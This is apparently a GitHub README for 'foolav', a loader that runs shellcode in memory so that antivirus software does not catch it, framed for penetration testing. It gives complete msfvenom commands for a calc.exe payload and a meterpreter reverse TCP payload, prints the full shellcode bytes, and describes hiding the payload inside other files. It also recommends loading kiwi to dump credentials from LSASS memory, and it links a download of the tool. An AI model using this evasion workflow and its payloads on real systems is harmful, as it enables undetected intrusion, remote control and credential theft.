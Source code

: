 # foolav

Executable compiled with this code is useful during penetration tests where there is a need to execute some payload (meterpreter maybe?) while being certain that it will not be detected by antivirus software. The only requirement is to be able to upload two files: `binary executable` and `payload file` into the same directory.

## Usage steps

1. prepare your payload (x86), i.e.
   
   calc: ```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d\xff" -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf``` (you dont really need to use any encoder or characters blacklisting, it will work anyway)
   
   meterpreter: ```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=... -a x86 -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf```
2. copy payload file `[executable-name-without-exe-extension].mf` in the same directory as executable
   payload running calc.exe generated using above command:
   ```
   # calc.exe
   \xbb\x28\x30\x85\x5b\xd9\xf7\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x33\x83\xea\xfc\x31\x5a\x0e\x03\x72\x3e\x67\xae\x7e\xd6\xee\x51\x7e\x27\x91\xd8\x9b\x16\x83\xbf\xe8\x0b\x13\xcb\xbc\xa7\xd8\x99\x54\x33\xac\x35\x5b\xf4\x1b\x60\x52\x05\xaa\xac\x38\xc5\xac\x50\x42\x1a\x0f\x68\x8d\x6f\x4e\xad\xf3\x80\x02\x66\x78\x32\xb3\x03\x3c\x8f\xb2\xc3\x4b\xaf\xcc\x66\x8b\x44\x67\x68\xdb\xf5\xfc\x22\xc3\x7e\x5a\x93\xf2\x53\xb8\xef\xbd\xd8\x0b\x9b\x3c\x09\x42\x64\x0f\x75\x09\x5b\xa0\x78\x53\x9b\x06\x63\x26\xd7\x75\x1e\x31\x2c\x04\xc4\xb4\xb1\xae\x8f\x6f\x12\x4f\x43\xe9\xd1\x43\x28\x7d\xbd\x47\xaf\x52\xb5\x73\x24\x55\x1a\xf2\x7e\x72\xbe\x5f\x24\x1b\xe7\x05\x8b\x24\xf7\xe1\x74\x81\x73\x03\x60\xb3\xd9\x49\x77\x31\x64\x34\x77\x49\x67\x16\x10\x78\xec\xf9\x67\x85\x27\xbe\x88\x67\xe2\xca\x20\x3e\x67\x77\x2d\xc1\x5d\xbb\x48\x42\x54\x43\xaf\x5a\x1d\x46\xeb\xdc\xcd\x3a\x64\x89\xf1\xe9\x85\x98\x91\x6c\x16\x40\x78\x0b\x9e\xe3\x84
   ```
3. once executable is run, payload file will be parsed, loaded into separate thread and executed in memory:
   
   ![screen](https://cloud.githubusercontent.com/assets/4956006/12366078/2c13213c-bbd9-11e5-8fc9-a7a62194158e.png)

## Hints

- x86 binary will run on both x86 and x86_64 Windows systems. Still, you need to use x86 architecture payloads. Nevertheless, x86 meterpreter payload can be migrated to x86_64 processes. After that, `load kiwi` will load x86_64 version making it possible to access juicy contents of LSASS process memory :)

  ![meter](https://cloud.githubusercontent.com/assets/4956006/12372509/aa21a00e-bc5a-11e5-8589-98ee8ce8bfc0.png)

- .mf payload file can be obfuscated - parser will ignore every character other than `\xHH` hexdecimal sequences. This means, it can append your payload to almost any file, hide it between the lines or even add your own comments, example:

![obfuscation](https://cloud.githubusercontent.com/assets/4956006/12372526/ca361694-bc5b-11e5-9a31-be6847cdcec2.png)

## Download

https://github.com/hvqzao/foolav/releases/download/v1.0/foolav.zip

## License

[MIT License](https://github.com/twbs/bootstrap/blob/master/LICENSE)
